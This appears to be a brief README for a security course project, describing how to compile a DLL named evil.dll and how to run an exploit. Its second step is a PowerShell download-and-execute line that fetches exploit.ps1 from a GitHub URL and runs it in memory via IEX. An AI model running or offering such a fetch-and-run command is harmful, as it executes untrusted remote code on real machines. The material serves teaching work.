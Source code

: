 # SC3010 Project

The following codes are educational. 

To create DLL files 

`gcc -shared -o evil.dll dll.c`


To run exploit

```
IEXIEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/Pwspang/SC3010-Codes/main/exploit.ps1');
```